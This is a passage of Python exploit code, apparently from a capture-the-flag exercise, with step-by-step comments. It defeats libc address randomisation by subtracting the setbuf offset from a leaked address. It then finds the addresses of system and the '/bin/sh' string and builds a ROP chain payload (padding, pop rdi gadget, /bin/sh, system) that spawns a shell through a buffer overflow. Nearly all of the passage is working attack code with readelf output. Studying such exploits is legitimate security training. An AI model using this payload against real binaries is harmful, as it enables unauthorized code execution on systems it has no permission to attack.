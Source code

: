 ```python
Plan to calculate the offset (getting the difference between the leaked address and the system address)
between scanf (function we leaked) and system (function we want to call )

`readelf -s ./libc.so.6 | grep scanf` (print the address of scanf)
2062: 000000000007b0b0   197 FUNC    GLOBAL DEFAULT   13 scanf@@GLIBC_2.2.5
"""
# scanf_offset = 0x7b0b0

"""
we changed the function from scanf to puts
`readelf -s ./libc.so.6 | grep puts` (print the address of puts)
422: 0000000000080a30   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
"""
# puts_offset = 0x80a30

"""
we changed from puts to setbuf
`readelf -s ./libc.so.6 | grep setbuf` (prints the address of setbuf)
2185: 0000000000088540    10 FUNC    GLOBAL DEFAULT   13 setbuf@@GLIBC_2.2.5
"""
setbuf_offset = 0x88540

# Now we take our leaked address and subtract 0x7b0b0, and then we find the actual loaded address of libc
base_address_of_libc = leak - setbuf_offset

log.info(f"{hex(base_address_of_libc)=}") # check if everything is right in our ROPchain, we could see that it isn't leaking right

"""
calcule the address of function system

`readelf -s //libc.so.6 | grep system`
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
"""
system_offset = 0x4f4e0
system_address = base_address_of_libc + system_offset # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
`strings libc.so.6 | grep /bin/sh`, check there is
"""

"""
open libc.so.6 in ghidra (don't scan it)
search memory (press s), change Format from hex to string and search for /bin/sh
002b40fa
"""
bin_sh_offset = 0x2b40fa
bin_sh_address = base_address_of_libc + bin_sh_offset

# second ROPchain (payload), now that its waiting to receive input

second_payload = [
	junk, # get back to the offset, where we know our instruction pointer will end up going, buffer overflow
	p64(pop_rdi), # supply an argument to a function that we end up calling, system 
	p64(bin_sh_address), # string to /bin/sh
	p64(system_address), # passing that to system
]

```